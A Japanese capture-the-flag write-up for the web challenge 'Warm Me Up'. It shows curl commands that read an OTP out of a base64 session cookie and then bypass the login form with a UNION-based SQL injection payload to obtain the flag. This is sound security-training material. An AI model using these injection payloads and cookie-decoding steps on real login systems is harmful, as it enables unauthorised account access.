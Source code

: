 # Warm Me Up:WEB:60pts
The most secure login page you will ever come across.  

[http://ae90f9104110ec1915363.playat.flagyard.com](http://ae90f9104110ec1915363.playat.flagyard.com)  

# Solution
URLのみが渡される。  
アクセスすると、ログインフォームへ続くウェルカムページが表示される。  
![site1.png](site/site1.png)  
リンクをクリックすると、ログインフォームへ遷移する。  
![site2.png](site/site2.png)  
Usernameにシングルクォート`'`を入れるとエラーが発生したため、SQLiのようだ。  
```bash
$ curl -X POST http://ae90f9104110ec1915363.playat.flagyard.com/login -d "username='&password=satoki&otp=satoki"
<!doctype html>
<html lang=en>
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```
OTPがわからないので探していると、cookieに何やらついていることがわかる。  
```bash
$ curl http://ae90f9104110ec1915363.playat.flagyard.com/ -I
HTTP/1.1 200 OK
Date: Mon, 09 Oct 2023 09:48:56 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 975
Connection: keep-alive
Set-Cookie: session=eyJvdHAiOiJVVDY3U1RUWkkwRjhIODZWIn0.ZSPMiA.np5d29A9zojSAU-fRfnLDXkP29M; HttpOnly; Path=/
Vary: Cookie
Referrer-Policy: no-referrer

$ echo -n 'eyJvdHAiOiJVVDY3U1RUWkkwRjhIODZWIn0' | base64 -d
{"otp":"UT67STTZI0F8H86V"}base64: invalid input
```
デコードするとotpが含まれており、`UT67STTZI0F8H86V`と分かった。  
あとはSQLiでログインしてやれば良い。  
```bash
$ curl -X POST http://ae90f9104110ec1915363.playat.flagyard.com/login -d "username=' UNION SELECT 1, 1; -- satoki&password=satoki&otp=UT67STTZI0F8H86V" -H "Cookie: session=eyJvdHAiOiJVVDY3U1RUWkkwRjhIODZWIn0.ZSPMiA.np5d29A9zojSAU-fRfnLDXkP29M" -v
~~~
> POST /login HTTP/1.1
> Host: ae90f9104110ec1915363.playat.flagyard.com
> User-Agent: curl/8.2.1
> Accept: */*
> Cookie: session=eyJvdHAiOiJVVDY3U1RUWkkwRjhIODZWIn0.ZSPMiA.np5d29A9zojSAU-fRfnLDXkP29M
> Content-Length: 76
> Content-Type: application/x-www-form-urlencoded
>
< HTTP/1.1 302 FOUND
< Date: Mon, 09 Oct 2023 10:01:45 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 197
< Connection: keep-alive
< Location: /flag
< Set-Cookie: session=eyJvdHAiOiJVVDY3U1RUWkkwRjhIODZWIiwidXNlcm5hbWUiOjF9.ZSPPiQ.ZH8Aiz-waxbLRPBT4f1i-axg3EM; HttpOnly; Path=/
< Vary: Cookie
< Referrer-Policy: no-referrer
<
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/flag">/flag</a>. If not, click the link.
~~~
```
エラーより、`users`テーブルに`username`や`password`があることがわかるが、それらを用いるとログインが失敗したため、UNIONで`1, 1`を返すようにすると、ログインに成功し`/flag`にリダイレクトした。
```bash
$ curl http://ae90f9104110ec1915363.playat.flagyard.com/flag -H "Cookie: session=eyJvdHAiOiJVVDY3U1RUWkkwRjhIODZWIiwidXNlcm5hbWUiOjF9.ZSPPiQ.ZH8Aiz-waxbLRPBT4f1i-axg3EM"
Here's your flag: BHFlagY{fe13fed56e14825120b961f3228edc12}
```
flagが得られた。  

## BHFlagY{fe13fed56e14825120b961f3228edc12}